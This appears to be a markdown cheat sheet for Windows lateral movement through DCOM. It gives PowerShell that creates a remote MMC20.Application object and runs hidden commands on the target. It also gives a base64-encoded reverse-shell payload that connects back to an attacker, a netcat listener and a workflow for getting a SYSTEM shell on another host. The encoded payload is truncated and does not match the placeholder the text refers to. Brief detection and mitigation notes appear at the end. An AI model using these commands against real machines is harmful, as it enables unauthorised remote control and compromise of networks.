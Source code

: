 # **DCOM Lateral Movement Cheat Sheet**  
*Abuse Distributed Component Object Model (DCOM) for remote code execution.*  

---

#### **Conditions for Success**  
1. **Local Admin Rights**:  
   - Attacker must have **local admin privileges** on the target.  
2. **Network Access**:  
   - **Port 135/TCP (RPC)** open between attacker and target.  
3. **DCOM Enabled**:  
   - DCOM must be enabled (default on Windows).  

---

### **Steps & Examples**  

#### **1. Instantiate DCOM Object**  
*Use PowerShell to create a remote MMC Application object:*  
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<TARGET_IP>"))
```  
- Replace `<TARGET_IP>` with the target machine’s IP/hostname.  

---

#### **2. Execute Commands**  
*Leverage the `ExecuteShellCommand` method to run commands:*  
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("cmd", $null, "/c calc", "7")
```  
- **Command**: `cmd` (executes `calc` via `/c calc`).  
- **WindowState**: `"7"` (hidden window).  

---

#### **3. Reverse Shell (Advanced)**  
**Step 1: Generate Base64 Payload**  [PowerShell_RCE](https://github.com/MGamalCYSEC/ReverseShellCrafter/tree/main/PowerShell)
**Step 2: Execute Payload via DCOM**  
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```  
- Replace `<BASE64_PAYLOAD>` with your encoded shell.  

---

### **Verification**  
**On Target**:  
```powershell
tasklist | findstr "win32calc"   # Verify process execution.
```  
**On Attacker**:  
```bash
nc -lnvp 443   # Catch reverse shell.
```  

---

### **Tools & Commands**  
| **Task**               | **Command**                                                                 |  
|-------------------------|-----------------------------------------------------------------------------|  
| **Basic Command**       | `ExecuteShellCommand("cmd", $null, "/c <COMMAND>", "7")`                   |  
| **Reverse Shell**       | Use `msfvenom` to generate payload + inject via DCOM.                      |  

---

### **Key Notes**  
- **Session 0 Execution**:  
  - Commands run in **Session 0** (non-interactive). Use `-WindowStyle Hidden` for stealth.  
- **Detection**:  
  - **Event ID 4688**: Process creation from `mmc.exe` or `DllHost.exe`.  
  - **Network**: Traffic on port 135 (RPC).  
- **Mitigation**:  
  - Disable DCOM via `dcomcnfg` > Component Services > Computers > My Computer > Properties > COM Security > Disable DCOM.  
  - Restrict local admin privileges.  

---

### **Example Workflow**  
1. **Compromise a workstation** (e.g., `CLIENT74`) as a local admin.  
2. **Instantiate DCOM object** targeting `FILES04` (192.168.50.73).  
3. **Execute `calc`** to verify access.  
4. **Generate a reverse shell** and gain a SYSTEM shell on `FILES04`.  

---

### **References**  
- [Microsoft DCOM Docs](https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model)  
- [Cybereason DCOM Research](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)  
